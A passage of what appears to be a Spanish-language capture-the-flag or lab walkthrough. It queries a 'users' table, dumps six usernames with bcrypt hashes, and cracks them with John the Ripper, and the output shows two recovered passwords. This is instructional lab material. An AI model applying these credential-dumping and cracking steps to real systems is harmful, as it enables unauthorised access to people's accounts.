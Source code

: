 Info:

```
files  users
```

Si vemos que contiene la tabla `users`.

```mysql
select * from users;
```

Info:

```
1|admin_ef01cab31aa|$2y$10$wDbohsUaezf74d3sMNRPi.o93wDxJqphM2m0VVUp41If6WrYr.QPC|600|Maria|Oliver|Ottawa
2|eric|$2y$10$S9EOSDqF1RzNUvyVj7OtJ.mskgP1spN3g2dneU.D.ABQLhSV2Qvxm|-1|||
3|veronica|$2y$10$xQmS7JL8UT4B3jAYK7jsNeZ4I.YqaFFnZNA/2GCxLveQ805kuQGOK|-1|||
4|yuri|$2b$12$HkRKUdjjOdf2WuTXovkHIOXwVDfSrgCqqHPpE37uWejRqUWqwEL2.|-1|||
5|john|$2a$10$iccCEz6.5.W2p7CSBOr3ReaOqyNmINMH1LaqeQaL22a1T1V/IddE6|-1|||
6|ethan|$2a$10$PkV/LAd07ftxVzBHhrpgcOwD3G1omX4Dk2Y56Tv9DpuUV/dh/a1wC|-1|||
```

Veremos varias credenciales, por lo que vamos a probar a intentar crackearlas de esta forma:

## John (Crackeo)

> hash

```
admin_ef01cab31aa:$2y$10$wDbohsUaezf74d3sMNRPi.o93wDxJqphM2m0VVUp41If6WrYr.QPC
eric:$2y$10$S9EOSDqF1RzNUvyVj7OtJ.mskgP1spN3g2dneU.D.ABQLhSV2Qvxm
veronica:$2y$10$xQmS7JL8UT4B3jAYK7jsNeZ4I.YqaFFnZNA/2GCxLveQ805kuQGOK
yuri:$2b$12$HkRKUdjjOdf2WuTXovkHIOXwVDfSrgCqqHPpE37uWejRqUWqwEL2.
john:$2a$10$iccCEz6.5.W2p7CSBOr3ReaOqyNmINMH1LaqeQaL22a1T1V/IddE6
ethan:$2a$10$PkV/LAd07ftxVzBHhrpgcOwD3G1omX4Dk2Y56Tv9DpuUV/dh/a1wC
```

Teniendo nuestro archivo de credenciales `hasheadas` vamos a `crackearlo` de esta forma:

```shell
john --format=bcrypt --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 6 password hashes with 6 different salts (bcrypt [Blowfish 32/64 X3])
Loaded hashes with cost 1 (iteration count) varying from 1024 to 4096
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
america          (eric)     
mustang          (yuri)
2g 0:00:01:47 0.06% (ETA: 2025-09-27 07:32) 0.01854g/s 98.15p/s 397.9c/s 397.9C/s kasandra..jhoan
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
```
